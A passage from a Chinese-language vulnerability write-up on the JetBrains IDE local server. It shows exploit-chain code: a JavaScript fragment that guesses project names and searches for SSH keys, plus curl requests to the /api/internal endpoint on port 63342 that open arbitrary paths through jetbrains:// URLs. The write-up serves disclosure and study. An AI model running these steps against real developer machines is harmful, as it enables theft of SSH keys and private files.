 ```
    console.log(projectName, "is a valid project, looking for SSH key");
    findSSHKeys(projectName);
  `}` else `{`
    console.log("Failed to guess a project name");
  `}`
`}`);
```



<br>

**可以避开项目名称猜测吗？**

必须要猜测出准确的项目名称这一点大大的缓冲了文件泄露的灾害性，但是API可能会解决这一问题。

最后我发现了JetBrainsProtocolHandlerHttpService对应的/api/internal 端口。显然这个端口可以在JSON blob中传送一个含有jetbrains: 的URL。

  / / &lt;project_name&gt; /open/ &lt;path&gt;处理程序似乎可以发现一些问题：



```
public class JBProtocolOpenProjectCommand extends JBProtocolCommand `{`
  public JBProtocolOpenProjectCommand() `{`
    super("open");
  `}`
 
  @Override
  public void perform(String target, Map&lt;String, String&gt; parameters) `{`
    String path = URLDecoder.decode(target);
    path = StringUtil.trimStart(path, LocalFileSystem.PROTOCOL_PREFIX);
    ProjectUtil.openProject(path, null, true);
  `}`
`}`
```



这让我们可以通过绝对路径打开一个项目，大多数 * NIX 系统

都有/Etc 目录，我们尝试打开一下：

```
$ curl "http://127.0.0.1:63342/api/internal" --data '`{`"url": "jetbrains://whatever/open//etc"`}`'
```



[![](https://p5.ssl.qhimg.com/t012951b5e317684e5c.png)](https://p5.ssl.qhimg.com/t012951b5e317684e5c.png)

所以该目录需要确实包含一个JetBrains风格的项目，不能简单地忽略任何旧目录。在OSX版本中，这会在/Applications/PyCharm.app/Contents/helpers下面，我们来试一下：

```
$ curl -v "http://127.0.0.1:63342/api/internal" --data '`{`"url": "jetbrains://whatever/open//Applications/PyCharm.app/Contents/helpers"`}`'
```
